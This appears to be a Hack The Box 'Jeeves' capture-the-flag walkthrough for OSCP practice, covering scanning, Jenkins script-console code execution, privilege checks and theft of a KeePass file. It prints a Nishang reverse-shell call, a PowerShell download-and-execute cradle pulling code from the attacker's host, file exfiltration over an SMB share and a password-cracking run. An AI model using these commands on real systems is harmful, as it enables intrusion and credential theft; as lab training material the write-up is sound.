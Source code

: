 # Hack the Box - Jeeves

```CSS
Machine IP: 10.10.10.63 - Windows
Difficulty: Medium
Category: OSCP Preparation
```

## NMAP

```CSS
▶ nmap -Pn -sS -p- 10.10.10.63 -T4 --min-rate 1000 -oN surface.nmap

Nmap scan report for 10.10.10.63
Host is up (0.18s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
50000/tcp open  ibm-db2

Nmap done: 1 IP address (1 host up) scanned in 126.42 seconds
```

```CSS
▶ nmap -sC -sV -p 80,135,445,50000 10.10.10.63 -oN deep.nmap 

Nmap scan report for 10.10.10.63
Host is up (0.18s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-05-05T11:01:04
|_  start_date: 2023-05-05T10:53:38
|_clock-skew: mean: 4h59m36s, deviation: 0s, median: 4h59m35s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.18 seconds
```

## HTTP 80
![image](https://user-images.githubusercontent.com/83878909/236389498-19f90e31-9c0d-4d9a-a46d-412576e533ed.png)

## HTTP 50000
![image](https://user-images.githubusercontent.com/83878909/236389674-c5e1bd6b-986d-46fd-b722-774f68fc85b2.png)

## Content Discovery
```CSS
▶ gobuster dir -u http://10.10.10.63:50000 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 25 -o http50000.gobuster
```
![image](https://user-images.githubusercontent.com/83878909/236398246-f2078de0-b176-4b58-ad55-50c921f36af9.png)

### Jenkins
![image](https://user-images.githubusercontent.com/83878909/236398469-e3cc9985-d477-4eb1-ad5d-c2158413b1a3.png)

## Initial Foothold
### Jenkins Code Execution
![image](https://user-images.githubusercontent.com/83878909/236399568-d5c3513a-e53a-4eb0-ad52-78b57a826a65.png)
![image](https://user-images.githubusercontent.com/83878909/236399923-36a48d06-d4bf-4f21-bbbd-774488412b38.png)
![image](https://user-images.githubusercontent.com/83878909/236400279-596d3aac-959f-4467-8461-edf489fdb014.png)
![image](https://user-images.githubusercontent.com/83878909/236403739-d0e075fe-9e51-4c44-a413-c895808a6eb7.png)

### Reverse Shell (Nishang)
```CSS
Invoke-PowerShellTcp.ps1
```
  - Add the below line to the end of the nishang script to call the function `Invoke-PowerShellTcp`.
```CSS
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.24 -Port 1337
```
![image](https://user-images.githubusercontent.com/83878909/236402506-7d9ab4a3-c03b-4f9a-95df-9919a096fab8.png)

### Upload and Execute Reverse Shell
![image](https://user-images.githubusercontent.com/83878909/236404815-a3a749e4-9efe-4822-84f7-c52ff12fadbb.png)
```CSS
cmd = """ powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.24:8000/Invoke-PowerShellTcp.ps1')" """
println cmd.execute().text
```
![image](https://user-images.githubusercontent.com/83878909/236404998-1451dc7e-23c3-492c-b2c0-9c4088e3fa56.png)
![image](https://user-images.githubusercontent.com/83878909/236405272-c600aa84-8189-4c49-823c-b3a885c9c1b7.png)

## Privilege Escalation
```CSS
PS C:\Users\kohsuke\Desktop> systeminfo

Host Name:                 JEEVES
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.10586 N/A Build 10586
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00331-20304-47406-AA297
Original Install Date:     10/25/2017, 4:45:33 PM
System Boot Time:          5/5/2023, 6:53:24 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2300 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 8/7/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,155 MB
Virtual Memory: Max Size:  2,687 MB
Virtual Memory: Available: 1,747 MB
Virtual Memory: In Use:    940 MB
Page File Location(s):     C:\pagefile.sys 
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 10 Hotfix(s) Installed.
                           [01]: KB3150513 
                           [02]: KB3161102 
                           [03]: KB3172729 
                           [04]: KB3173428 
                           [05]: KB4021702 
                           [06]: KB4022633 
                           [07]: KB4033631 
                           [08]: KB4035632 
                           [09]: KB4051613 
                           [10]: KB4041689 
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.63
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

### Check Privileges
  - Enabled privileges for the current user.
```CSS
PS C:\Users\kohsuke\Desktop> whoami /priv
```
![image](https://user-images.githubusercontent.com/83878909/236414816-1cb17b36-5c1e-4523-9408-e0f0cd9c4ad7.png)
  - SetImpersonatePrivilege is enabled so we’re very likely to get SYSTEM using Juicy Potato. However it is not the intended way to get SYSTEM on this machine.

### Content Discovery
![image](https://user-images.githubusercontent.com/83878909/236416012-ac147c3d-f597-4efe-a993-72b5b024ef42.png)

  - A bit of browsing quickly reveals a CEH.kdbx file in the Documents directory.

#### File Transfer
  - Transfer the `CEH.kdbx` file to attacker machine. Use `netcat` or `impacket-smbserver` for the file transfer.
```CSS
▶ impacket-smbserver PwnStuff `pwd`
```
![image](https://user-images.githubusercontent.com/83878909/236417913-f7d190bb-1536-423b-9281-108512a2bc16.png)
```CSS
PS C:\Users\kohsuke\Documents> New-PsDrive -Name "HardyBoy" -PSProvider "FileSystem" -Root "\\10.10.14.24\PwnStuff"
PS C:\Users\kohsuke\Documents> cd HardyBoy:
```
![image](https://user-images.githubusercontent.com/83878909/236418624-4a8aa8da-1174-4551-8c62-5a4ffb6dd317.png)

```CSS
PS HardyBoy:\> cp C:\Users\kohsuke\Documents\CEH.kdbx
```
![image](https://user-images.githubusercontent.com/83878909/236419375-2e1c8a97-5752-4594-bdf7-9d012466a04f.png)

### Crack KeePass Database Password
```CSS
▶ keepass2john CEH.kdbx
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
```

```CSS
▶ keepass2john CEH.kdbx > kdbx.hash
▶ john --format=KeePass --wordlist=/usr/share/wordlists/rockyou.txt kdbx.hash
```
![image](https://user-images.githubusercontent.com/83878909/236423036-e30a1c30-dd2c-460a-9d88-54826270cda1.png)
```CSS
Database Password: moonshine1
```
